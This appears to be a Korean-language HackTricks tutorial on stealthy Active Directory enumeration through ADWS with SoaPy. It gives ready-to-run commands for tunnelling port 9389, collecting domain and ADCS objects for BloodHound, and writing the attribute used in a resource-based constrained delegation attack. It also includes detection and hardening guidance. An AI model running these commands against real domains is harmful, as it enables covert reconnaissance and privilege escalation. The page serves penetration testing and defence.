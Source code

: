 # Active Directory Web Services (ADWS) Enumeration & Stealth Collection

{{#include ../../banners/hacktricks-training.md}}

## ADWS란 무엇인가?

Active Directory Web Services (ADWS)는 **Windows Server 2008 R2 이후 모든 도메인 컨트롤러에서 기본적으로 활성화되어 있으며** TCP **9389**에서 수신 대기합니다. 이름과는 달리, **HTTP는 포함되지 않습니다**. 대신, 이 서비스는 독점적인 .NET 프레이밍 프로토콜 스택을 통해 LDAP 스타일의 데이터를 노출합니다:

* MC-NBFX → MC-NBFSE → MS-NNS → MC-NMF

트래픽이 이러한 이진 SOAP 프레임 안에 캡슐화되어 있고 일반적이지 않은 포트를 통해 전송되기 때문에, **ADWS를 통한 열거는 고전적인 LDAP/389 및 636 트래픽보다 검사, 필터링 또는 서명될 가능성이 훨씬 낮습니다**. 운영자에게는 다음과 같은 의미가 있습니다:

* 더 은밀한 정찰 – 블루 팀은 종종 LDAP 쿼리에 집중합니다.
* SOCKS 프록시를 통해 9389/TCP를 터널링하여 **비 Windows 호스트 (Linux, macOS)**에서 수집할 수 있는 자유.
* LDAP를 통해 얻을 수 있는 동일한 데이터 (사용자, 그룹, ACL, 스키마 등)와 **쓰기**를 수행할 수 있는 능력 (예: **RBCD**를 위한 `msDs-AllowedToActOnBehalfOfOtherIdentity`).

> 참고: ADWS는 많은 RSAT GUI/PowerShell 도구에서도 사용되므로 트래픽이 합법적인 관리 활동과 혼합될 수 있습니다.

## SoaPy – 네이티브 Python 클라이언트

[SoaPy](https://github.com/logangoins/soapy)는 **순수 Python으로 ADWS 프로토콜 스택을 완전히 재구현한 것입니다**. 이는 NBFX/NBFSE/NNS/NMF 프레임을 바이트 단위로 생성하여 .NET 런타임에 손대지 않고 Unix 유사 시스템에서 수집할 수 있게 합니다.

### 주요 기능

* **SOCKS를 통한 프록시 지원** (C2 임플란트에서 유용).
* LDAP `-q '(objectClass=user)'`와 동일한 세밀한 검색 필터.
* 선택적 **쓰기** 작업 ( `--set` / `--delete` ).
* BloodHound에 직접 수집하기 위한 **BOFHound 출력 모드**.
* 사람이 읽기 쉬운 경우를 위해 타임스탬프 / `userAccountControl`을 예쁘게 만드는 `--parse` 플래그.

### 설치 (운영자 호스트)
```bash
python3 -m pip install soapy-adws   # or git clone && pip install -r requirements.txt
```
## Stealth AD Collection Workflow

다음 워크플로우는 ADWS를 통해 **도메인 및 ADCS 객체**를 열거하고, 이를 BloodHound JSON으로 변환한 후, 인증서 기반 공격 경로를 탐색하는 방법을 보여줍니다 – 모두 Linux에서 수행됩니다:

1. **대상 네트워크에서 귀하의 박스로 9389/TCP 터널링** (예: Chisel, Meterpreter, SSH 동적 포트 포워드 등을 통해). `export HTTPS_PROXY=socks5://127.0.0.1:1080`을 내보내거나 SoaPy의 `--proxyHost/--proxyPort`를 사용하십시오.

2. **루트 도메인 객체 수집:**
```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
-q '(objectClass=domain)' \
| tee data/domain.log
```
3. **Configuration NC에서 ADCS 관련 객체 수집:**
```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@10.2.10.10 \
-dn 'CN=Configuration,DC=ludus,DC=domain' \
-q '(|(objectClass=pkiCertificateTemplate)(objectClass=CertificationAuthority) \\
(objectClass=pkiEnrollmentService)(objectClass=msPKI-Enterprise-Oid))' \
| tee data/adcs.log
```
4. **BloodHound로 변환:**
```bash
bofhound -i data --zip   # produces BloodHound.zip
```
5. **ZIP 파일을** BloodHound GUI에 업로드하고 `MATCH (u:User)-[:Can_Enroll*1..]->(c:CertTemplate) RETURN u,c`와 같은 cypher 쿼리를 실행하여 인증서 상승 경로(ESC1, ESC8 등)를 드러냅니다.

### `msDs-AllowedToActOnBehalfOfOtherIdentity` (RBCD) 작성
```bash
soapy ludus.domain/jdoe:'P@ssw0rd'@dc.ludus.domain \
--set 'CN=Victim,OU=Servers,DC=ludus,DC=domain' \
msDs-AllowedToActOnBehalfOfOtherIdentity 'B:32:01....'
```
`s4u2proxy`/`Rubeus /getticket`를 결합하여 전체 **리소스 기반 제약 위임** 체인을 만듭니다.

## 탐지 및 강화

### 상세한 ADDS 로깅

도메인 컨트롤러에서 ADWS(및 LDAP)에서 발생하는 비용이 많이 드는 / 비효율적인 검색을 표면화하기 위해 다음 레지스트리 키를 활성화합니다:
```powershell
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Diagnostics' -Name '15 Field Engineering' -Value 5 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Expensive Search Results Threshold' -Value 1 -Type DWORD
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters' -Name 'Search Time Threshold (msecs)' -Value 0 -Type DWORD
```
이벤트는 **Directory-Service** 아래에 전체 LDAP 필터와 함께 나타나며, 쿼리가 ADWS를 통해 도착했을 때도 마찬가지입니다.

### SACL 카나리 객체

1. 더미 객체(예: 비활성 사용자 `CanaryUser`)를 생성합니다.
2. _Everyone_ 주체에 대한 **Audit** ACE를 추가하고 **ReadProperty**에서 감사합니다.
3. 공격자가 `(servicePrincipalName=*)`, `(objectClass=user)` 등을 수행할 때마다 DC는 실제 사용자 SID를 포함하는 **Event 4662**를 발생시킵니다. 이는 요청이 프록시되거나 ADWS에서 시작되었을 때도 마찬가지입니다.

Elastic 사전 구축 규칙 예:
```kql
(event.code:4662 and not user.id:"S-1-5-18") and winlog.event_data.AccessMask:"0x10"
```
## Tooling Summary

| Purpose | Tool | Notes |
|---------|------|-------|
| ADWS enumeration | [SoaPy](https://github.com/logangoins/soapy) | Python, SOCKS, read/write |
| BloodHound ingest | [BOFHound](https://github.com/bohops/BOFHound) | SoaPy/ldapsearch 로그 변환 |
| Cert compromise | [Certipy](https://github.com/ly4k/Certipy) | 동일한 SOCKS를 통해 프록시 가능 |

## References

* [SpecterOps – Make Sure to Use SOAP(y) – An Operators Guide to Stealthy AD Collection Using ADWS](https://specterops.io/blog/2025/07/25/make-sure-to-use-soapy-an-operators-guide-to-stealthy-ad-collection-using-adws/)
* [SoaPy GitHub](https://github.com/logangoins/soapy)
* [BOFHound GitHub](https://github.com/bohops/BOFHound)
* [Microsoft – MC-NBFX, MC-NBFSE, MS-NNS, MC-NMF specifications](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nbfx/)

{{#include ../../banners/hacktricks-training.md}}

